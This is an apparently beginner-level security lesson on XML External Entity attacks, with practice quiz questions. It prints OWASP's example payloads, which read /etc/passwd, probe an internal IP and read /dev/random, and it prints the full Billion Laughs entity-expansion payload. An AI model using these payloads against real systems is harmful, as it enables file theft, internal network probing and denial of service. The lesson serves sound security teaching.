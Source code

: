 ```yaml
---
author: lizTheDeveloper

levels:

  - beginner

  - basic

  - medium

aspects:

  - introduction

  - workout

type: normal

category: hack


standards:
  security.xxe.0: 10

links:
  - '[OWASP Top Ten](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)'
  - '[Billion Laughs Attack](https://en.wikipedia.org/wiki/Billion_laughs_attack)'
  - '[Security Briefs - XML Denial of Service Attacks and Defenses](https://msdn.microsoft.com/en-us/magazine/ee335713.aspx)'
  - '[SAML Security XML External Entity Attack](https://secretsofappsecurity.blogspot.com/2017/01/saml-security-xml-external-entity-attack.html)'
  - '[Detecting and exploiting XXE in SAML Interfaces](https://web-in-security.blogspot.com/2014/11/detecting-and-exploiting-xxe-in-saml.html)'
  - '[CVE-611](https://cwe.mitre.org/data/definitions/611.html)'

---
```


# eXternal XML Entities

---
## Content
OWASP describes XXE as Xternal XML Entities, which is a vulnerability vector in XML documents that allows them to embed other documents, including local system files, in XML documents. If these processors run or execute these files with elevated permissions, attackers can inject malicious instructions in their XML files.

These examples from *OWASP's Top Ten* list show how the data can be configured to execute external scripts:

**Scenario #1**: The attacker attempts to extract data from the
server:
```
<?xml version="1.0"
 encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM
 "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

**Scenario #2**: An attacker probes the server's private network by
changing the above ENTITY line to:
```
<!ENTITY xxe
SYSTEM "https://192.168.1.1/private" >]>
```
**Scenario #3**: An attacker attempts a denial-of-service attack by
including a potentially endless file:
```
<!ENTITY xxe
SYSTEM "file:///dev/random" >]>
```

Here's an example of this attack that was a widespread problem due to it's simplicity, called the **Billion Laughs Attack**:

```
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1
 "&lol;&lol;&lol;&lol;&lol;
  &lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2
 "&lol1;&lol1;&lol1;&lol1;&lol1;
 &lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3
 "&lol2;&lol2;&lol2;&lol2;&lol2;
 &lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4
 "&lol3;&lol3;&lol3;&lol3;&lol3;
 &lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5
 "&lol4;&lol4;&lol4;&lol4;&lol4;
 &lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6
 "&lol5;&lol5;&lol5;&lol5;&lol5;
 &lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7
 "&lol6;&lol6;&lol6;&lol6;&lol6;
 &lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8
 "&lol7;&lol7;&lol7;&lol7;&lol7;
 &lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9
 "&lol8;&lol8;&lol8;&lol8;&lol8;
 &lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```
From Wikipedia:

> When an XML parser loads this document, it sees that it includes one root element, "lolz", that contains the text "&lol9;". However, "&lol9;" is a defined entity that expands to a string containing ten "&lol8;" strings. Each "&lol8;" string is a defined entity that expands to ten "&lol7;" strings, and so on. After all the entity expansions have been processed, this small (< 1 KB) block of XML will actually contain 109 = a billion "lol"s, taking up almost 3 gigabytes of memory.

---
## Practice

An XXE attack affects what components of an application?
???

* XML Processors
* HTTP Endpoints
* Network Firewall
* HTML DOM


---
## Revision

An XXE attack comes from exploiting what?
???

* External Entities
* Unvalidated Input
* Untested Code
* Malformed Requests
